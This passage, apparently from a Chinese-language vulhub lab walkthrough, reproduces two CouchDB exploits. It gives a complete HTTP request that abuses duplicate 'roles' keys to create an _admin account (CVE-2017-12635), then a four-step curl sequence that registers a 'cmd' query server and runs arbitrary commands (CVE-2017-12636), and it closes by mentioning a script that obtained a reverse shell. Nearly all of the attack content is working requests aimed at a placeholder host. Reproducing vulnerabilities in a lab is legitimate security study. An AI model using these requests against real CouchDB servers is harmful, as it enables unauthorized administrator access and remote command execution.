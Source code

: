 可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

发送包含两个roles的数据包，即可绕过限制：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">PUT /_users/org.couchdb.user:vulhub HTTP/1.1</span><br><span class="line">Host: your-ip:5984</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Type: application/json</span><br><span class="line">Content-Length: 108</span><br><span class="line"></span><br><span class="line">{</span><br><span class="line">  "type": "user",</span><br><span class="line">  "name": "vulhub",</span><br><span class="line">  "roles": ["_admin"],</span><br><span class="line">  "roles": [],</span><br><span class="line">  "password": "vulhub"</span><br><span class="line">}</span><br></pre></td></tr></tbody></table>

成功创建管理员，账户密码均为`vulhub`：

再次访问`http://your-ip:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

#### [](#（2）Couchdb-任意命令执行漏洞（CVE-2017-12636） "（2）Couchdb 任意命令执行漏洞（CVE-2017-12636）")（2）Couchdb 任意命令执行漏洞（CVE-2017-12636）

参考链接：

* <http://bobao.360.cn/learning/detail/4716.html>
* <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html>

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)先增加一个管理员用户。

依次执行如下请求即可触发任意命令执行：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id &gt;/tmp/success"'</span><br><span class="line">curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'</span><br><span class="line">curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'</span><br><span class="line">curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'</span><br></pre></td></tr></tbody></table>

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

利用脚本

写了一个简单的脚本 <exp.py>，修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本，成功反弹shell：
